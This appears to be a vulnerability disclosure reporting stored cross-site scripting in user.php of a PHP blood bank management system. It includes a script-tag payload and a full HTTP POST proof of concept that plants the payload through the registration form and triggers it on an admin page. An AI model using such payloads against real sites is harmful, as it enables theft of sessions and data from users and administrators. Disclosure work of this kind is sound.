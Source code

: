 # blood-bank-system-in-php has Cross Site Scripting vulnerability in user.php

## supplier 
https://code-projects.org/blood-bank-system-in-php-with-source-code/
## Vulnerability file
user.php

## describe
There are unrestricted cross site scripting attacks and injection attacks in the blood-bank-system-in-php. The controllable parameters are as follows: user parameter. This function will execute the user parameter without restriction into the echo statement. Malicious attackers can exploit this vulnerability to obtain sensitive information from clients

**Code analysis**

Querying data from the database and storing it in the $row [] array, and the echo $user is not filtered, resulting in the execution of XSS statements.

## POC

insert xss into databases.

```
user = </td><script>alert(22);</script>
```

```
POST /register.php HTTP/1.1
Host: bloodbankmgmtsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: http://bloodbankmgmtsystem
Connection: close
Referer: http://bloodbankmgmtsystem/register.php
Cookie: PHPSESSID=d6hubsm42i543rs5qj6sg7bth2
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user=%3C%2Ftd%3E%3Cscript%3Ealert%2822%29%3B%3C%2Fscript%3E&pass=1
```

![](https://github.com/LucasArcher9274/CVE/blob/main/image-20241124231525482.png)

![](https://github.com/LucasArcher9274/CVE/blob/main/image-20241124231654004.png)



Visit this URL to trigger the cross-site scripting vulnerability.

```
http://bloodbankmgmtsystem/admin/user.php
```

**Result**

![](https://github.com/LucasArcher9274/CVE/blob/main/image-20241124231716019.png)

 